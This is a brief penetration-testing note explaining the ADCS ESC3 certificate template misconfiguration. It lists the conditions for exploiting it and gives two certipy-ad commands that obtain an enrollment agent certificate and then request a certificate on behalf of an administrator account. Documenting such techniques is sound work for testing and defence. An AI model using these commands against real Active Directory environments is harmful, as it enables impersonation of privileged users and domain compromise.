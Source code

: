 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# General Overview

An ESC3 vulnerable template permits the issuance of certificates on behalf of any user, enabling the potential impersonation of other users. This vulnerability arises because the template includes the Certificate Request Agent EKU. Specifically, the Certificate Request Agent OID (1.3.6.1.4.1.311.20.2.1) grants the ability to request certificates on behalf of other principals.

To exploit this misconfiguration, the Certificate Authority (CA) must have at least two templates that meet the following conditions:

1. The template allows a low-privileged user to enroll in an enrollment agent certificate.
2. The Approval Manager is disabled.
3. Authorized signatures are not required.
4. The certificate template defines the Certificate Request Agent EKU, enabling the request of other certificate templates on behalf of other principals.

# Abusing ESC3 Certificates

## Certipy:
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' 
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'  -on-behalf-of 'Megacorpone\Xadmin' -pfx 'xadmin.pfx'